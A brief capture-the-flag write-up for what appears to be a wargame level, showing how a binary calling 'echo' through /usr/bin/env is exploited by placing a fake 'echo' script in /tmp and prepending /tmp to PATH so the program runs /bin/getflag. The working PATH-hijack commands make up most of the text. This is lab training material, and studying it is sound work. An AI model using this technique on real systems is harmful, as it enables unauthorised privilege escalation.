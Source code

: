 # Level 03

ls -la => right of flag03

strings level03

```
/usr/bin/env echo Exploit me
```

we assume they perform an echo cmd so we could replace this cmd

```
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
```

